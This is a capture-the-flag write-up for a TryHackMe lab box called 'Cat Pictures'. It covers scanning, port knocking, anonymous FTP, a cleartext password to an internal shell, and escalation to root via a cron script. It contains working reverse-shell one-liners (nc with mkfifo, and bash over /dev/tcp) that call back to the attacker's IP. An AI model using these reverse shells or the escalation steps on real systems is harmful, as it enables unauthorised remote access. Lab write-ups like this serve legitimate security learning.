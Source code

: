 # Cat Pictures
I made a forum where you can post cute cat pictures!

![](Images/default_tryhackme.png)

## Enumerations
Let's run a nmap scan see what we got.
```
# Nmap 7.91 scan initiated Sat Jun  5 16:54:16 2021 as: nmap -sV -sC -oN nmap/scan 10.10.137.255
Nmap scan report for 10.10.137.255
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  ssl/http-proxy?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 16:55:55 2021 -- 1 IP address (1 host up) scanned in 98.59 seconds
```
Looks like we got a website. 

![](Images/webpage.png)

Let's poke around little bit. After sometime I found some hint to what to do. It was in the **Your first forum**.

![](Images/hint.png)

Let's knock to the server. I use knock.py to knock the server. It's a simple script from this repo :

https://github.com/grongor/knock

You can simply use this command to exectue the script.
```
./knock 10.10.64.47 1111 2222 3333 4444
```
Now we knock the ports. Let's run nmap scan again see what comeback. 

```
# Nmap 7.91 scan initiated Sun Jun  6 15:47:29 2021 as: nmap -sC -sV -A -oN nmap/after_the_knock 10.10.64.47
Nmap scan report for 10.10.64.47
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 15:48:02 2021 -- 1 IP address (1 host up) scanned in 33.45 seconds
```
We got a FTP server and inside it we got a note.txt . Let's see what was that 

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is *******.
- catlover
```
We got a password and port 4420. Let's look into port 4420

![](Images/shell.png)

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -v 10.10.64.47 4420
10.10.64.47: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.64.47] 4420 (?) open
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls
bin
etc
home
lib
lib64
opt
tmp
usr
```
We got a shell but they said we can't use cd to look around. Now what we do !!

Thx to **pentestmonkey** we got a revshells.

This was my revshell :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.48 4444 >/tmp/f
```
When we slap that badboy into that netcat shell and setup a netcat listener BOOM !!! we got a shell. Here we can use **cd** command.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.48] from (UNKNOWN) [10.10.64.47] 55986
/bin/sh: 0: can't access tty; job control turned off
# /bin/bash -i
bash: cannot set terminal process group (1589): Inappropriate ioctl for device
bash: no job control in this shell
I have no name!@cat-pictures:/# ls -la
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Jun  6 10:58 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
I have no name!@cat-pictures:/home# ls         
ls
catlover
I have no name!@cat-pictures:/home# cd catlover
cd catlover
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 28
drwxr-xr-x 2 0 0  4096 Apr  3 01:34 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
When we look into that run me file we got some nonsence there. But among them my cat eyes caught this

```
rbeccaPlease enter your password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
Maybe rebecca is the password. who knows we can try it.

```bash
 have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jun  6 11:06 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jun  6 11:06 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
I have no name!@cat-pictures:/home/catlover# 
```
BOOM! *rebecca* was the password. We got a private key. If you not get it go back to previous dir and comeback and check it will be here.

Let's change the permission for ssh key and connect to the **ssh** .

```bash
┌─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $sudo chmod 600 id_rsa 
[sudo] password for visith: 
┌─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $ssh catlover@10.10.64.47 -i id_rsa 
The authenticity of host '10.10.64.47 (10.10.64.47)' can't be established.
ECDSA key fingerprint is SHA256:7HBac/JH7EKQik9kL1l9GMjCgLN/69gfXalu5cbPi4U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

root@7546fa2336d6:/# 
root@7546fa2336d6:/# ls
bin  boot  etc   lib    media  opt      post-init.sh  root  sbin  sys  usr
bitnami  dev   home  lib64  mnt    post-init.d  proc          run   srv   tmp  var
root@7546fa2336d6:/# cd root
root@7546fa2336d6:/root# ls
flag.txt
root@7546fa2336d6:/root# cat flag.txt
*******
```
After some waste of time I ran a linpeas script to make sure everything didn't miss. There was a “/opt/clean” filesystem that was exactly the same as “overlay”.

![](Images/system-with-linpeas.png)

When I went to the “/opt/clean” location, there was a “clean.sh” script in there. It cleaned the “/tmp” directory completely.

Let's try to execute a rev shell and setup a nc listener. This was my revshell :
```
echo "bash -i >& /dev/tcp/10.9.2.48/9999 0>&1" > clean.sh
```
We got a call back to our listener.
```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.2.48] from (UNKNOWN) [10.10.64.47] 51398
bash: cannot set terminal process group (2590): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# ls
ls
firewall
root.txt
root@cat-pictures:~# cat root.txt
cat root.txt
Congrats!!!
Here is your flag:
******
```
Thx for reading !!
